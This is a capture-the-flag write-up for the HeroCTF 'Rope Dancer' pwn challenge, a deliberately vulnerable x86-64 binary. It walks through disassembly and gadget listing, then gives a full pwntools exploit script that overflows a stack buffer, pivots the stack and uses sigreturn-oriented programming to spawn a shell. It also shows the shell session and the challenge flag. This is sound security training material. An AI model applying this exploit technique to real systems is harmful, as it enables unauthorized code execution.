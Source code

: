 # Rope Dancer

### Category

Pwn

### Description

A circus has just opened near you and you would love to work there as a rope dancer. Perhaps you could access their recruitment criteria to maximize your chances of being selected?

Format : Hero{flag}<br>
Author : SoEasY

### Files

- [ropedancer](ropedancer)

### Write Up

First of all, let's take some informations about the binary:
```bash
$ file ropedancer  
ropedancer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ checksec ./ropedancer
[*] '/home/soeasy/GitHub/HeroCTF_v5/Pwn/Rope_Dancer/ropedancer'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

So we have an x64 ELF, and the checksec output is typicall of hand-written assembly challenges, only using syscalls. Let's launch the binary.

```bash
$  ./ropedancer   
Hello. So, you want to be a ROPedancer? A
Well, let me know if you change your mind.
                                                                                    
$ ./ropedancer
Hello. So, you want to be a ROPedancer? yes
Alright. Please enter an email on which we can contact you: okokookok
This is not a valid email, don't waste my time.

$ ./ropedancer
Hello. So, you want to be a ROPedancer? yes
Alright. Please enter an email on which we can contact you: ok@gmail.com
Thanks. You have 400 characters to convince me to hire you: zjdpizjdpijzdipjapidjza
We will get back to you soon. Good bye.
```

Alright, we are asked for 3 inputs: a "yes/no", an email and a motivation letter. Let's look at the code in IDA.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  int buffer_yes_no; // [rsp+0h] [rbp-4h] BYREF

  v0 = sys_write(1u, "Hello. So, you want to be a ROPedancer? ", 0x29uLL);
  v1 = sys_read(0, (char *)&buffer_yes_no, 4uLL);
  if ( buffer_yes_no == '\nsey' )
  {
    v2 = sys_write(1u, "Alright. Please enter an email on which we can contact you: ", 0x3DuLL);
    get_motivation_letter();
  }
  else
  {
    v3 = sys_write(1u, "Well, let me know if you change your mind.\n", 0x2CuLL);
  }
  exit(1);
}
```

Let's look at the function `get_motivation_letter()`:
```c
signed __int64 get_motivation_letter()
{
  signed __int64 v0; // rax
  bool is_email_valid; // al
  signed __int64 v2; // rax
  signed __int64 result; // rax
  char email[16]; // [rsp+0h] [rbp-10h] BYREF

  v0 = sys_read(0, email, 100uLL);
  is_email_valid = check_email(email);
  if ( *&is_email_valid )
  {
    __asm { syscall; LINUX - sys_write }
    v2 = sys_read(0, motivation_letter, 500uLL);
    return sys_write(1u, "We will get back to you soon. Good bye.\n", 0x29uLL);
  }
  else
  {
    result = 1LL;
    __asm { syscall; LINUX - sys_write }
  }
  return result;
}
```

We can here notice a buffer overflow in the `email` stach buffer. By the way, we can also see a buffer overflow in the bss buffer `motivation_letter` (size of 400, read of 500 bytes) but afet testing this one isn't usefull at all (it actually that I forgot to reduce the input from 500 to 400 lmao).

So we've got a stack buffer overflow on the email, but how do we exploit it ?

If we take a look at the gadgets ending by RET, there are only a fex gadgets:
```bash
$ ROPgadget --binary ./ropedancer | grep ret
0x000000000040110f : add byte ptr [rax], al ; add byte ptr [rdi], cl ; add eax, 0x5dec8948 ; ret
0x0000000000401111 : add byte ptr [rdi], cl ; add eax, 0x5dec8948 ; ret
0x0000000000401113 : add eax, 0x5dec8948 ; ret
0x0000000000401116 : in al, dx ; pop rbp ; ret
0x0000000000401013 : inc al ; ret
0x0000000000401010 : int1 ; xor eax, eax ; inc al ; ret
0x0000000000401115 : mov esp, ebp ; pop rbp ; ret
0x0000000000401114 : mov rsp, rbp ; pop rbp ; ret
0x0000000000401117 : pop rbp ; ret
0x0000000000401015 : ret
0x0000000000401012 : sar dh, 0xc0 ; ret
0x0000000000401011 : xor eax, eax ; inc al ; ret
```

The intended exploitation was the following:
- stack pivot to `motivation_letter` using `pop rbp ; ret` & `mov rsp, rbp ; pop rbp ; ret`
- `inc al ; ret` * 0xf and SYS_SIGRETURN to make an SROP

My solving script:

```py
from pwn import *

context.binary = ELF("./ropedancer")

# r = process("./ropedancer")
r = remote("static-03.heroctf.fr", 5002)

r.sendlineafter(b"be a ROPedancer? ", b"yes")

# Gadgets
mov_rsp_rbp_pop_rbp = 0x401114 # mov rsp, rbp ; pop rbp ; ret
pop_rbp             = 0x401117 # pop rbp ; ret
xor_rax_inc_al      = 0x401011 # xor eax, eax ; inc al ; ret
inc_al              = 0x401013 # inc al ; ret
syscall             = 0x40102f # syscall
motivation_letter   = 0x40312C

# 16 + 8 (rbp save) = 24 characters
rop1 = b'our.fake.email@gmail.com'

# Stack pivot to motivation_letter
rop1 += p64(pop_rbp)
rop1 += p64(motivation_letter)

rop1 += p64(mov_rsp_rbp_pop_rbp)
rop1 += p64(motivation_letter)

log.success(f"1st ROP length: {len(rop1)}")
r.sendlineafter(b"contact you: ", rop1)

###########################################

srop_frame = SigreturnFrame()
srop_frame.rax = constants.SYS_execve
srop_frame.rdi = motivation_letter
srop_frame.rsi = 0
srop_frame.rdx = 0
srop_frame.rip = syscall

# SYS_SIGRETURN (rax=0xf)
rop2 = b"/bin/sh\x00"
rop2 += p64(xor_rax_inc_al)
rop2 += p64(inc_al) * 0xe
rop2 += p64(syscall)
rop2 += bytes(srop_frame)

print(srop_frame.keys())

log.success(f"2nd ROP length: {len(rop2)}")
r.sendlineafter(b"hire you: ", rop2)
r.interactive()
```

Execution:
```bash
$ python3 solve.py
[*] '/home/soeasy/GitHub/HeroCTF_v5/Pwn/Rope_Dancer/ropedancer'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to static-03.heroctf.fr on port 5002: Done
[+] 1st ROP length: 56
dict_keys(['uc_flags', '&uc', 'uc_stack.ss_sp', 'uc_stack.ss_flags', 'uc_stack.ss_size', 'r8', 'r9', 'r10', 'r11', 'r12', 'r13', 'r14', 'r15', 'rdi', 'rsi', 'rbp', 'rbx', 'rdx', 'rax', 'rcx', 'rsp', 'rip', 'eflags', 'csgsfs', 'err', 'trapno', 'oldmask', 'cr2', '&fpstate', '__reserved', 'sigmask'])
[+] 2nd ROP length: 384
[*] Switching to interactive mode
\x00We will get back to you soon. Good bye.
\x00$ id
uid=1000(player) gid=1001(player) groups=1001(player),1000(ctf)
$ ls
entry.sh
ropedancer
selection_criterias.txt
$ cat selection_criterias.txt
- Must be able to balance on a tightrope while wearing clown shoes and juggling flaming rubber chickens
- Able to perform tightrope tricks while reciting Shakespearean sonnets in pig Latin
- Must possess the unique ability to hypnotize audiences using only the power of interpretative dance while on a tightrope
- Capable of performing the entire "Thriller" dance routine from Michael Jackson on a tightrope, while also dressed as a zombie
- Exceptional at tightrope walking while wearing a blindfold and navigating solely by echolocation, like a bat
- Must be able to tightrope walk while simultaneously making balloon animals for an audience of highly discerning squirrels
- Proficient in tightrope walking while wearing a sumo wrestler suit and maintaining perfect balance, even in strong winds
- Able to balance on a tightrope while holding a tray of delicate teacups, ensuring not a single drop of tea is spilled
- Expert in tightrope walking while solving a Rubik's Cube, playing the accordion, and wearing a full suit of medieval armor while screaming "Hero{1_w4nN4_b3_4_R0P3_D4nC3r_s0_b4d!!!}"
- Must be able to recite the entire periodic table of elements backwards, while walking on a tightrope suspended over a pool of hungry alligators
```

### Flag

```
Hero{1_w4nN4_b3_4_R0P3_D4nC3r_s0_b4d!!!}
```

